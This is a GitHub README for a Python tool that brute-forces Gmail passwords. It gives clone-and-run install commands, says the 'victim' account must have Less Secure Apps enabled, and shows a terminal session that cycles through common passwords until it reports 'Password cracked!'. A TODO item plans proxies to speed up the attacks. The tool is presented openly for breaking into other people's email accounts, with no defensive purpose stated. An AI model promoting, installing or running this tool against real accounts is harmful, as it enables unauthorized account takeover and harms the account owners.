 
Powerful, Robust and Efficient tool for bruteforcing Gmail accounts written in python3.

### Installation

**Pre requisties:** `git` and `python3`

1. For windows

```bash
git clone https://github.com/Sarthak2143/GmailBruteforce
cd GmailBruteforce/
python3 main.py
```
1. For Mac/Linux

```bash
git clone https://github.com/Sarthak2143/GmailBruteforce
cd GmailBruteforce/
chmod +x main.py
./main.py
```
## NOTE

In order to bruteforce any gmail account with this tool the victim account must have **Less Secure Apps** turned on.

For more details see [Why you need to turn ON less secure apps](https://support.google.com/accounts/answer/6010255?hl=en)

Read this [article by devnews](https://devanswers.co/allow-less-secure-apps-access-gmail-account/) to turn ON **Less secure apps.**

## Usage

**Pre requisties:**  

- Victim's Gmail account.
- Wordlist for bruteforcing.

This tool comes with a wordlist pre-installed.

```bash
┌──(kali㉿kali)-[~/GmailBruteforce]
└─$ python3 main.py

[?] Enter email adress: test@gmail.com
[?] Enter wordlist path: wordlist.txt
Starting bruteforcing...

[!] Incorrect password: 123456
[!] Incorrect password: 12345
[!] Incorrect password: 123456789
[!] Incorrect password: password                        
[!] Incorrect password: iloveyou
[!] Incorrect password: princess
[!] Incorrect password: 1234567                         
[!] Incorrect password: 12345678                        
[!] Incorrect password: abc123
[!] Incorrect password: nicole                          
[!] Incorrect password: daniel                         
[!] Incorrect password: babygirl                       
[!] Incorrect password: monkey
[!] Incorrect password: lovely
[!] Incorrect password: jessica
[!] Incorrect password: michael
[!] Incorrect password: ashley
[!] Incorrect password: qwerty
[!] Incorrect password: 111111
[!] Incorrect password: iloveu
[!] Incorrect password: 000000
[!] Incorrect password: michelle
[!] Incorrect password: tigger
[!] Incorrect password: sunshine
[+] Correct password: chocolate
[+] Password cracked!

[*] Script finished!
[*] Time Elapsed: 18 seconds.
```

You've to specify the Gmail address and path to wordlist in the input section.

## TODO

- [ ] Use proxies for better efficiency.
- [ ] Commamd line version with flags.

### Support

Having trouble with Tool? [Report an Issue](https://github.com/Sarthak2143/GmailBruteforce/issues).
